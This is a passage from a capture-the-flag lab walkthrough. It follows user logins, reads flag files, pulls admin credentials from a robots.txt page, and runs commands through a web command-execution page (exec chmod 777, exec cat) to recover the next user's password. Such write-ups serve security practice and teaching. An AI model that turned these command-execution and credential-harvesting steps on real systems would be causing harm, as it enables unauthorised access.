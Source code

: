 The credentials for the 6th user`seis:Hogwarts`

### User 6

```
>>> su seis
    password:Hogwarts

>>> cd 
>>> ls
    flag6.txt  readme.txt

>>> cat flag6.txt 
    Congratulations! Here's your 6th flag segment: flag6{779a25}

>>> cat readme.txt 
    head over to /shellcmsdashboard webpage and find the credentials!

```

So, we find an hidden directory `/shellcmsdashboard`

On viewing the robots.txt page we get the credentials for admin login

```
http://192.168.43.71/shellcmsdashboard/robots.txt

Username: admin Password: qwerty
```

We can use these credentials to login.

It displays the message `head over to /aabbzzee.php`

This is the target for our next command execution vulnerability.

`http://192.168.43.71/shellcmsdashboard/aabbzzee.php`

We can see that the exec command followed by command executes the given command.
```
exec ls

aabbzzee.php index.php readme9213.txt robots.txt 

exec cat readme9213.txt 
```
this command fails on this file except all. So, we add readable permissions to the file and the reading the file again.

```
exec chmod 777 readme9213.txt
exec cat readme9213.txt
```

This dispalys `password for the seventh user is 6u1l3rm0p3n473 `

`siete:6u1l3rm0p3n473`
